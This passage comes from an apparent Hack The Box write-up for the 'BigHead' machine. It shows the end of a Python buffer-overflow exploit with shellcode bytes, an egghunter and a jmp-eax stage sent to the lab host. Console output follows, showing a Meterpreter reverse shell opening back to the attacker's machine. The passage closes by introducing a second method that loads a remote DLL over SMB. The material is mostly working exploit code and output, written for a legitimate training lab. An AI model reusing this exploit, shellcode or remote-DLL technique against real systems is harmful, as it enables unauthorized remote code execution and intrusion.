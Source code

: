 ```python
payload += "\x80\x6b\x76\x34\x0b\xfa\x34\xa5\x0c\xd7\x99\x7b\x0c"
payload += "\xd4\x01\x8c\x77\x95\xb6\x6d\x88\xbf\xd2\x6e\x88\xbf"
payload += "\xe4\x53\x5e\x86\x92\x92\x62\xbd\xad\xa1\xc7\x94\x27"
payload += "\xc9\x54\xe6\x6d"

data = {"payload": payload}
proxies = {"http": "http://127.0.0.1:8080"}

s = requests.Session()
r = requests.Request("POST", "http://dev.bighead.htb/coffee/", data=data)
p = r.prepare()
p.body = payload
del p.headers["Content-Type"]
try:
    s.send(p, proxies=proxies, timeout=0.2)
except requests.exceptions.ReadTimeout:
    pass

r = remote("10.10.10.112", 80)
jmp_eax = "f2125062"
align_esp = "505C" # push eax, pop esp
egghunter = "6681caff0f42526a0258cd2e3c055a74efb8773030748bfaaf75eaaf75e7ffe7"
stage2 = align_esp + egghunter + "9090" + jmp_eax

r.send("HEAD /" + stage2 + " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n")
```

Launching exploit... 
```
# python exploit.py 
[+] Opening connection to 10.10.10.112 on port 80: Done
[*] Closed connection to 10.10.10.112 port 80

msf5 exploit(multi/handler) > 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (179808 bytes) to 10.10.10.112
[*] Meterpreter session 4 opened (10.10.14.23:80 -> 10.10.10.112:49306) at 2019-05-03 20:47:52 -0400

msf5 exploit(multi/handler) > 
msf5 exploit(multi/handler) > sessions 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: PIEDPIPER\Nelson
```

### Exploit development (Method #2 using LoadLibrary over SMB)

Instead of using an egghunter, we can also use the `LoadLibrary` function to load a remote DLL hosted on our machine through the Impacket SMB server. Using the debugger, I can see that the `LoadLibrary` is exported from `bheadsrv.dll` at address `0x625070C8`.
